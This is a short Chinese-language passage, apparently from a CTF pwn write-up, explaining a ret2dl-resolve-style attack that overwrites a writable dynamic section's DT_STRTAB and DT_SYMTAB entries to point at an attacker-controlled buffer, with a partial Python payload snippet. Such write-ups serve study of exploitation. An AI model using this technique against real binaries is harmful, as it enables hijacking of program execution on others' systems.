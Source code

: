 &#8195;此处漏洞点就不再详细论述，这里采用的是ret2lib的技术，不过这里不同于一般的构造。一般在寻址时都是base_addr+index，一般在伪造时都是通过伪造index，从而使其执行用户控制的缓冲区。<br>
&#8195;而这里由于动态表所在的区域是可写的，因此这里直接更改动态表的内容，也就是这里直接改base_addr，从而实现指向用户可控的缓冲区。<br>
&#8195;如下所示，首先获取动态表的基址，然后重新构造，第8项和第9项的内容，具体修改需要看程序的动态表分布。
```
dynamic_addr = 0x6006f8

    buf2_base = dynamic_addr + 8 * 0x10a
    buf2 = p64(5)  # DT_STRTAB
    buf2 += p64(buf_base + 0x20)  # fake strtab address
    buf2 += p64(6)  # DT_SYMTAB
    buf2 += p64(0x600f00)
```
